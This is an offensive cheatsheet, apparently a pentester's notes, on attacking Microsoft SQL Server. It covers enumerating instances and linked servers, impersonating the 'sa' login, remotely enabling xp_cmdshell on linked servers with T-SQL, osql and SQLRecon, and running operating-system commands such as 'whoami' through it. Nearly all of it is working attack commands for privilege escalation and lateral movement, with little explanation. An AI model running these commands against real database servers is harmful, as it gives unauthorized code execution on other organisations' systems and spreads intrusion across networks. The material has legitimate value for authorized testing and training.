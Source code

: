 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"

# login current user
PS C:\mane> sqlcmd -S

# user and password
PS C:\mane> sqlcmd -S .\SQLEXPRESS -U xxx -P xxx
``

```sql
# List Databases
SELECT name FROM master..sysdatabases;

# List Tables
SELECT name FROM master..sysobjects WHERE xtype = 'U';



```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```

With `PowerUPSql.ps1`, [CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

```
Get-SQLInstanceLocal -Verbose
```

```
osql -E -S "localhost\SQLEXPRESS" -Q "select * from master..sysservers" 
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

Sometimes SQLRecon.exe have some problem with code execute.

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'

```

## osql enable cmdshell with link

```
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('sp_configure''xp_cmdshell'',1;RECONFIGURE;') AT [<remote.manesec.local>]"

osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell whoami') AT [<remote.manesec.local>];"
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell ''mkdir C:\mane''') AT [<remote.manesec.local>];"

```